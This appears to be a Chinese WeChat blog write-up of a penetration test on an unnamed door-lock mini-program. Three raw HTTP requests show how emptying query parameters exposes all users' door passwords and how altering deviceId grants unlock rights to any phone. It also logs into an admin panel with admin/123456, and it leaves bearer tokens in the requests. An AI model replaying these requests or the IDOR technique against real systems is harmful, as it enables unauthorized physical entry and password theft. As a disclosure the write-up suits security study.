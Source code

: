#  某微信小程序未授权漏洞挖掘（置空查询思路）   
 迪哥讲事   2025-03-23 17:30  
  
**01**  
  
**原创说明**  
  
  
本篇文章为苏木师傅实战案例分享  
  
  
**02**  
  
渗透记录  
  
  
微信小程序  
xxx  
，点击门卡  
-点击添加密码-截获数据包查看返回包可查看密码  
,可越权授权如何手机号开门权限  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCu6n7c8vzAVwIFqqPrIBANgPG0t4BcgZIlYkibQiaBSib97HpniaDiaDqpKA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCNWauAr0MVdR2jy4UIBJ9FPHztUkZQutrFJbF5jwFJHPtuh9hmxoRPg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**03**  
  
未授权一  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCiaVgLlicMibKys7zfH2ldU0aMwwGwQgIllhxS9QRf5S61sOQdtVg35xHQ/640?wx_fmt=png&from=appmsg "")  
  
  
删除  
userid和bind数值可查看全部用户密码  
  
  
  
数据包：  
```
GET/prod-api/nfc/device/list?userId=&isBind= HTTP/1.1
Host:XXX.XXX.cn
Xweb_xhr:1
Authorization:eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImUwMGY0YTY0LTNjZDctNDc1Zi1iN2NlLTc5ZDcwYWY3MjNjYyJ9.1LwhfaSNs34yL9mnACRLkviTL5NzbLCQwpv_jd0bjrsFcoFhMVsO7AD9C-K3jl83VA7RC5X_p53vCW4ZeWsqEQ
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090819) XWEB/8531
Content-Type:application/json
Accept:*/*
Sec-Fetch-Site:cross-site
Sec-Fetch-Mode:cors
Sec-Fetch-Dest:empty
Referer:https://servicewechat.com/wx473f7c96d0986720/37/page-frame.html
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Connection:close
```  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNC8xl9kq9z7VyV9JR9pia7sbicpmvibUkV0sDQTTb5bcJaz1RX4rLH2bTQw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**04**  
  
未授权二  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCsgPXzGQ3oQf1bicJvuhzcnOMNLIDFgdU1gN8aXacm9LdxRX9KGIKtyQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCXQsFfx35XztibopRickCyfJqibHgpmvxJ2wHgcxY9j6wicFibv8Pic4PribwQ/640?wx_fmt=png&from=appmsg "")  
  
  
可查看自己的密码  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCVPCY3O9mgQxs2IsMHgUbWldyhrEsUStxBfLSJnQOnrIFUttpZbgS5g/640?wx_fmt=png&from=appmsg "")  
  
  
删除  
deviceid、ismin、status值后可查看所有用户密码  
  
  
  
数据包：  
  
  
```
GET/prod-api/fy/cardkey/list?deviceId=&isMain=&status= HTTP/1.1
Host:XXX.XXX.cn
Xweb_xhr:1
Authorization:eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImUwMGY0YTY0LTNjZDctNDc1Zi1iN2NlLTc5ZDcwYWY3MjNjYyJ9.1LwhfaSNs34yL9mnACRLkviTL5NzbLCQwpv_jd0bjrsFcoFhMVsO7AD9C-K3jl83VA7RC5X_p53vCW4ZeWsqEQ
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090819) XWEB/8531
Content-Type:application/json
Accept:*/*
Sec-Fetch-Site:cross-site
Sec-Fetch-Mode:cors
Sec-Fetch-Dest:empty
Referer:https://servicewechat.com/wx473f7c96d0986720/37/page-frame.html
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Connection:close
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCTBsMoJGqzLmLwm2B8fZLQkdE7vKRhH7jZGf2mbcJDUn2gljl4cR48Q/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**05**  
  
未授权三  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCONRaya3G8lRmkY7AVjjOjPs4BjTIbMqsxZaQt5ialoZRbpj0z5jKoxA/640?wx_fmt=png&from=appmsg "")  
  
  
数据包：  
```
POST /prod-api/fy/cardkey HTTP/1.1
Host: xxx.xxx.cn
Content-Length: 131
Xweb_xhr: 1
Authorization: eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImJiMDIxZjZmLTZmY2UtNDRmOS04M2FlLTBkZmMxZDEyZTZlNiJ9.ndIZOlqG9vXCvb2EBc5efx14tz3VtED_uRrFrCS-FhyBNY4MQTdu08ZVU6QfrrACGmuH_eZbr_uRfWBsEVXT6g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 MicroMessenger/7.0.20.1781(0x6700143B) NetType/WIFI MiniProgramEnv/Windows WindowsWechat/WMPF WindowsWechat(0x63090819) XWEB/8531
Content-Type: application/json
Accept: */*
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://servicewechat.com/wx473f7c96d0986720/37/page-frame.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
{"deviceId":"758","passType":"4","password":"978949","endData":0,"phone":"18888888888","startTime":"2024-01-19 09:00","endTime":""}
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCTH38lzFLxpiaUGHUKSrNW0dInI6q9jGJLialJvXB31qmt6z98dwPIOZg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCjmbHxwjSXkUlEz2ddKx8bfoarKnTMhkQgKR0rcWek1pfXNk4Mk90bg/640?wx_fmt=png&from=appmsg "")  
  
通过修改  
deviceId  
值可在任何账号中为指定手机授权开锁权限  
  
  
  
  
**06**  
  
弱口令  
  
  
**小程序看完了，看看web，运气不错弱口令进去了是若依系统，但可惜的是里面没有历史漏洞******  
  
  
  
Url:https://  
XXX.XXX  
.cn/  
  
  
  
账号：  
admin  
  
  
  
密码：  
123456  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCdjoSibduhuYFYlDjSN9kFUy3nCRI0xu98gSmDN9CLhARZYd2EWiaL2AQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicIVgKyDjvDG98yvDPPb6NNCLJalg08QTuWRLAzibjTwQ6nsJyvgmFSsduyD2dIymVZm21laOBhmVNA/640?wx_fmt=png&from=appmsg "")  
  
**本篇文章为苏木师傅实战案例分享**  
  
****  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5EMr3X76qdKBrhIIkBlVVyuiaiasseFZ9LqtibyKFk7gXvgTU2C2yEwKLaaqfX0DL3eoH6gTcNLJvDQ/640?wx_fmt=png&from=appmsg "")  
  
往期回顾  
  
[一款bp神器](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495880&idx=1&sn=65d42fbff5e198509e55072674ac5283&chksm=e8a5faabdfd273bd55df8f7db3d644d3102d7382020234741e37ca29e963eace13dd17fcabdd&scene=21#wechat_redirect)  
  
  
[挖掘有回显ssrf的隐藏payload](https://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496898&idx=1&sn=b6088e20a8b4fc9fbd887b900d8c5247&scene=21#wechat_redirect)  
  
  
[ssrf绕过新思路](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495841&idx=1&sn=bbf477afa30391b8072d23469645d026&chksm=e8a5fac2dfd273d42344f18c7c6f0f7a158cca94041c4c4db330c3adf2d1f77f062dcaf6c5e0&scene=21#wechat_redirect)  
  
  
[一个辅助测试ssrf的工具](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496380&idx=1&sn=78c0c4c67821f5ecbe4f3947b567eeec&chksm=e8a5f8dfdfd271c935aeb4444ea7e928c55cb4c823c51f1067f267699d71a1aad086cf203b99&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips‍](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
  
  
  
